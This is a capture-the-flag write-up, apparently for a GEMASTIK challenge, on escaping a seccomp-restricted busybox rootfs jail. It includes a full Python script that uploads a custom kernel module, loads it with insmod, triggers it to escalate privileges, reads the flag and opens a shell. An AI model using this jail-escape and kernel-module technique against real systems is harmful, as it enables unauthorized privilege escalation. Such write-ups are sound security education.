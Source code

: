 ![](attachments/Pasted%20image%2020250831013214.png)  
![](attachments/Pasted%20image%2020250830185848.png)  
In the zip file given, there is a linux kernel image, an executable, a C program source code, a CPIO rootfs file, and a run script.
![](attachments/Pasted%20image%2020250831012426.png)  
The run script itself looks like a regular qemu run command, but I prepended `#!/bin/sh` to it so I can execute it properly.
![](attachments/Pasted%20image%2020250831011131.png)  
![](attachments/Pasted%20image%2020250831011307.png)  
Decompressing the CPIO rootfs reveals a linux root directory, with an unusual directory named 'penjara', with a `bin` directory containing `busybox` and `sh` binaries, which can be used to solve the challenge.
The flag seems to be located at `/root/flag.txt`.  
Obviously, I can already see that this is going to be one of those rootfs jail challenges.
![](attachments/Pasted%20image%2020250831005338.png)  
`main.c` clarifies this, the program basically adds seccomp rules to block the commands that can be used/abused to escape the rootfs jail. I assume `main` is invoked on init.  
I thought this challenge is going to be impossible. But, however...
```
# busybox
BusyBox v1.35.0 (2023-12-25 17:04:41 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --show SCRIPT
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as.

Currently defined functions:
	[, [[, addgroup, adduser, ar, arch, arp, arping, ascii, ash, awk,
	base32, base64, basename, bc, blkid, bunzip2, bzcat, cat, chattr,
	chgrp, chmod, chown, chroot, chrt, chvt, cksum, clear, cmp, cp, cpio,
	crc32, crond, crontab, cttyhack, cut, date, dc, dd, deallocvt,
	delgroup, deluser, devmem, df, diff, dirname, dmesg, dnsd,
	dnsdomainname, dos2unix, du, dumpkmap, echo, egrep, eject, env,
	ether-wake, expr, factor, fallocate, false, fbset, fdflush, fdformat,
	fdisk, fgrep, find, flock, fold, free, freeramdisk, fsck, fsfreeze,
	fstrim, fuser, getopt, getty, grep, gunzip, gzip, halt, hdparm, head,
	hexdump, hexedit, hostid, hostname, hwclock, i2cdetect, i2cdump,
	i2cget, i2cset, i2ctransfer, id, ifconfig, ifdown, ifup, inetd, init,
	insmod, install, ip, ipaddr, ipcrm, ipcs, iplink, ipneigh, iproute,
	iprule, iptunnel, kill, killall, killall5, klogd, last, less, link,
	linux32, linux64, linuxrc, ln, loadfont, loadkmap, logger, login,
	logname, losetup, ls, lsattr, lsmod, lsof, lspci, lsscsi, lsusb, lzcat,
	lzma, lzopcat, makedevs, md5sum, mdev, mesg, microcom, mim, mkdir,
	mkdosfs, mke2fs, mkfifo, mknod, mkpasswd, mkswap, mktemp, modprobe,
	more, mount, mountpoint, mt, mv, nameif, netstat, nice, nl, nohup,
	nologin, nproc, nslookup, nuke, od, openvt, partprobe, passwd, paste,
	patch, pidof, ping, pipe_progress, pivot_root, poweroff, printenv,
	printf, ps, pwd, rdate, readlink, readprofile, realpath, reboot,
	renice, reset, resize, resume, rm, rmdir, rmmod, route, run-init,
	run-parts, runlevel, sed, seq, setarch, setconsole, setfattr,
	setkeycodes, setlogcons, setpriv, setserial, setsid, setuidgid, sh,
	sha1sum, sha256sum, sha3sum, sha512sum, shred, sleep, sort,
	start-stop-daemon, strings, stty, su, sulogin, svc, svok, swapoff,
	swapon, switch_root, sync, sysctl, syslogd, tail, tar, tc, tee, telnet,
	test, tftp, time, top, touch, tr, traceroute, true, truncate, ts, tty,
	ubirename, udhcpc, uevent, umount, uname, uniq, unix2dos, unlink,
	unlzma, unlzop, unxz, unzip, uptime, usleep, uudecode, uuencode,
	vconfig, vi, vlock, w, watch, watchdog, wc, wget, which, who, whoami,
	xargs, xxd, xz, xzcat, yes, zcat
```
`insmod` and `modprobe`, which are available as busybox functions, aren't explicitly blocked in the seccomp rules. I can use this to load kernel modules. 
After some digging, I found this: https://github.com/SECCON/SECCON2022_final_CTF/tree/main/jeopardy/pwnable/babyescape/solver/driver. I can modify the driver source code to something like this:
![](attachments/Pasted%20image%2020250831010336.png)  
![](attachments/Pasted%20image%2020250831005945.png)  
The running kernel version is `linux 6.16.0`, so I can just download the source code, compile it, and build the kernel module for that version of the linux kernel specifically.
![](attachments/Pasted%20image%2020250831010622.png)  
After that, I can just run this script in the directory that contains the `run.sh` script, making sure that the compiled kernel driver, `pwn.ko` exists in the same directory:
```
import base64
import time
from ptrlib import *

def run(cmd):
    sock.sendlineafter("# ", cmd)

kernel = base64.b64encode(
    open("pwn.ko", "rb").read()
).decode()

sock = Process("./run.sh", cwd=".")

# Create kernel driver
for block in chunks(kernel, 1000):
    run(f'echo "{block}" >> b64')
run("busybox base64 -d b64 > pwn.ko")
run("busybox rm b64")

# Install kernel module
run("busybox insmod pwn.ko")
run("busybox mknod modpwn c 60 1")

# Invoke exploit
run("busybox cat modpwn")

# Get flag
time.sleep(1)
run("busybox cat /flag.txt")

# Drain and print all buffered output
while True:
    try:
        data = sock.recv(timeout=0.2)  # try to read with small timeout
        if not data:
            break
        print(data.decode(errors="ignore"), end="")
    except TimeoutError:
        break

# Then attach to interactive shell
sock.sh()
```
![](attachments/Pasted%20image%2020250831012323.png)  
Yep, it works. Now I can use it on the remote server, using `sock = Socket("18.143.31.243", 9008)`
But since the connection was very bad at the time the competition was going ~~and the machine didn't reset~~, I just did this:
![](attachments/roblox.png)  
That's it. lol. The flag is: `GEMASTIK18{ingfokan_pemabaran_roblox_muncak_gunung}`  
~~nevermind, pwn.ko is and has always been in the remote `/penjara` dir, you just had to insert and load the kernel module. not fun.~~